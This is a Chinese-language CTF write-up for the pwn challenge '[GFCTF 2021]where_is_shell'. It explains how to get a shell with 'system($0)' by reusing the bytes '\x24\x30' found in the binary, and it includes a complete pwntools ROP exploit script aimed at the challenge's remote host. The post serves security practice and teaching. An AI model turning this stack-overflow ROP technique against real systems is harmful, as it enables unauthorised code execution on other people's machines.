 ```yaml
---
title: '[GFCTF 2021]where_is_shell'
date: 2024-03-16 13:00:00 +0800
categories: [shell]
tags: [ctf,pwn]
---
```

- `shell`的特殊姿势

![image-20240316122106483](../assets/img/old_imgs/image-20240316122106483.png)

看上去很简单的栈溢出,但是问题在于找不到能用的`/bin/sh`或者`sh`

这里出现了一个`shell`的新姿势:可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`

![image-20240316122245239](../assets/img/old_imgs/image-20240316122245239.png)

在`tips`函数中正好有 `\x24\x30`可以用来构造,所以需要取出`0x400541`

关于`ida`打开机器码:`Option->general->Number of opcode改成5`

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

